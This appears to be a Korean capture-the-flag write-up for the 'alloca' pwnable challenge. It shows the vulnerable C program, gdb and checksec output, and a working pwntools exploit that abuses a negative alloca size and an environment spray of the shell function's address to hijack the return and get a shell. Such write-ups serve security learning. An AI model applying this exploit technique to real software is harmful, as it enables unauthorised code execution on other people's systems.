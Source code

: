 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-26-15-30-22.png)

# **Write-Up**

파일 정보를 확인하자.

```
alloca@pwnable:~$ checksec alloca
[*] '/home/alloca/alloca'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

소스는 다음과 같다.

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void callme(){
    system("/bin/sh");
}

void clear_newlines(){
    int c;
    do{
            c = getchar();
    }while (c != '\n' && c != EOF);
}

int g_canary;
int check_canary(int canary){
    int result = canary ^ g_canary;
    int canary_after = canary;
    int canary_before = g_canary;
    printf("canary before using buffer : %d\n", canary_before);
    printf("canary after using buffer : %d\n\n", canary_after);
    if(result != 0){
            printf("what the ....??? how did you messed this buffer????\n");
    }
    else{
            printf("I told you so. its trivially easy to prevent BOF :)\n");
            printf("therefore as you can see, it is easy to make secure software\n");
    }
    return result;
}

int size;
char* buffer;
int main(){

    printf("- BOF(buffer overflow) is very easy to prevent. here is how to.\n\n");
    sleep(1);
    printf("   1. allocate the buffer size only as you need it\n");
    printf("   2. know your buffer size and limit the input length\n\n");

    printf("- simple right?. let me show you.\n\n");
    sleep(1);

    printf("- whats the maximum length of your buffer?(byte) : ");
    scanf("%d", &size);
    clear_newlines();

    printf("- give me your random canary number to prove there is no BOF : ");
    scanf("%d", &g_canary);
    clear_newlines();

    printf("- ok lets allocate a buffer of length %d\n\n", size);
    sleep(1);

    buffer = alloca( size + 4 );    // 4 is for canary

    printf("- now, lets put canary at the end of the buffer and get your data\n");
    printf("- don't worry! fgets() securely limits your input after %d bytes :)\n", size);
    printf("- if canary is not changed, we can prove there is no BOF :)\n");
    printf("$ ");

    memcpy(buffer+size, &g_canary, 4);      // canary will detect overflow.
    fgets(buffer, size, stdin);             // there is no way you can exploit this.

    printf("\n");
    printf("- now lets check canary to see if there was overflow\n\n");

    check_canary( *((int*)(buffer+size)) );
    return 0;
}
```

callme함수에 system("/bin/sh")이 있으므로, 최종 목적지는 0x080485AB이다.

![](images/2022-01-26-16-41-34.png)

이때, main함수에 return을 부분을 보면 ebp-0x4의 값을 ecx에 넣고, ecx-0x4를 esp에 넣은 후 retn하니 esp의 값이 callme함수가 되어야 한다.

![](images/2022-01-26-16-44-16.png)

alloca함수는 스택에 메모리를 할당하는 함수라고 정의된다.

> [alloca](https://docs.microsoft.com/ko-kr/cpp/c-runtime-library/reference/alloca?view=msvc-170)

이때, 스택의 공간을 확보하는 크기는 다음과 같다.

(입력 size : 0 ~ 13 => 0x20, 14 ~ 27 => 0x30)

![](images/2022-01-26-17-14-56.png)

size는 int형이다. 즉 -35를 넣었을 때, size + 34가 음수가 되는데 결과를 확인하면 스택의 크기가 줄어든다.

![](images/2022-01-26-17-26-17.png)

size를 계속 줄여나가다 보면, 입력한 random canary가 ebp - 0x4가 된다.

(size = -74, canary = 1111)

![](images/2022-01-26-18-47-44.png)

환경변수에 callme주소를 잔뜩 박아넣은 다음, esp가 환경변수를 가르키게 만들자. 다만 aslr이 걸려있으므로, exploit하기 위해서는 반복되어야 할 것 같다.

```sh
alloca@pwnable:~$ cat /proc/sys/kernel/randomize_va_space
2
```

환경변수의 위치는 0xffxxxxxx부터 랜덤하게 부여된다.

```sh
(gdb) x/5000x $esp
... 생략 ...
0xff849de0:     0x2f61636f      0x6f6c6c61      0x58006163      0x535f4744
0xff849df0:     0x49535345      0x495f4e4f      0x32313d44      0x37313239
0xff849e00:     0x45485300      0x2f3d4c4c      0x2f6e6962      0x68736162
0xff849e10:     0x52455400      0x74783d4d      0x006d7265      0x5f485353
0xff849e20:     0x45494c43      0x363d544e      0x35322e31      0x31322e31
0xff849e30:     0x39312e35      0x34342034      0x32203838      0x00323232
0xff849e40:     0x5f485353      0x3d595454      0x7665642f      0x7374702f
... 생략 ...
```

한번 0xFFD00000으로 된다는 가정하게 진행하자. 따라서 canary는 -3145728이다.

> [Hex to Dec](https://www.rapidtables.com/convert/number/hex-to-decimal.html)

size 값을 찾기 위해 음수 값을 넣어보면서 canary를 넣은 값이 ebp - 0x4에 위치하면 된다.

```
alloca@pwnable:~$ gdb -q ./alloca
Reading symbols from ./alloca...(no debugging symbols found)...done.
(gdb) disas main
... 생략 ...
   0x08048831 <+462>:   mov    -0x4(%ebp),%ecx
   0x08048834 <+465>:   leave
   0x08048835 <+466>:   lea    -0x4(%ecx),%esp
   0x08048838 <+469>:   ret
End of assembler dump.
(gdb) b *main+462
Breakpoint 1 at 0x8048831
(gdb) r
... 생략 ...
- whats the maximum length of your buffer?(byte) : -74
- give me your random canary number to prove there is no BOF : 1111
... 생략 ...
(gdb) x/x $ebp - 4
0xffed3c54:     0x00000457
```

FLAG를 획득하자.

```python
alloca@pwnable:~$ mkdir -p /tmp/2honrr_alloca
alloca@pwnable:~$ cd /tmp/2honrr_alloca
alloca@pwnable:/tmp/2honrr_alloca$ vi exploit.py

from pwn import*
context.log_level = 'error'
shell   = p32(0x80485AB)
e       = {str(i): shell * 30000 for i in range(10)}
cnt     = 0
while True:
    cnt += 1
    p   = process("/home/alloca/alloca", env=e)
    p.sendline('-74')
    p.sendline('-3145728')
    p.recvuntil('what the f...??? how did you messed this buffer????\n')
    try:
        p.sendline('cat /home/alloca/flag')
        print(p.recvline())
    except EOFError:
        print("Try... {}".format(cnt))
        p.close()
        continue
    p.interactive()
    break
    
alloca@pwnable:/tmp/2honrr_alloca$ python exploit.py
```

# **FLAG**

**sorry... I stand corrected.. it is H4RD to make secure software**